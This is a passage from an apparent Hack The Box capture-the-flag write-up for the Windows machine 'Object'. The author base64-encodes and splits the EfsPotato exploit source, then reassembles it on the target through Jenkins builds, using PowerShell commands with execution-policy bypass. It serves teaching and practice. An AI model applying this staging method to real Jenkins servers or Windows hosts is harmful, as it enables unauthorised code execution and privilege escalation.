 This will create 5 separate files containing the chunked base64 contents of `EfsPotato.b64`. The purpose for this is to transfer the contents of EfsPotato in base64 format across to the windows host and then decode it back to the original content.
```zsh
0x3ds@kali $ base64 -w0 EfsPotato.cs > EfsPotato.b64

0x3ds@kali $ split -b 7000 -d --additional-suffix=.b64 EfsPotato.b64 part_
```


We can take the contents from each file that was generated (the long base64 string) and create 5 commands that we will execute individually through our Jenkins build. We are wanting to combine the base64 strings back into one single file on the windows host machine. We will call this file `efspot.b64`, and we will store it within a directory we need to create, we will call it `%TEMP%\resource.temp`.

The format for our commands will remain the same, with the base64 string changing each time. The format will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value <Base64_String_Here> -Encoding ASCII"`


---
### Exploitation

First, we need to create the directory that we are going to store our files in. To do this, we will use the following command:\
`mkdir %TEMP%\resource.temp`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_19.png){: .light .w-50 .shadow .rounded-10 w='1212' h='668' }
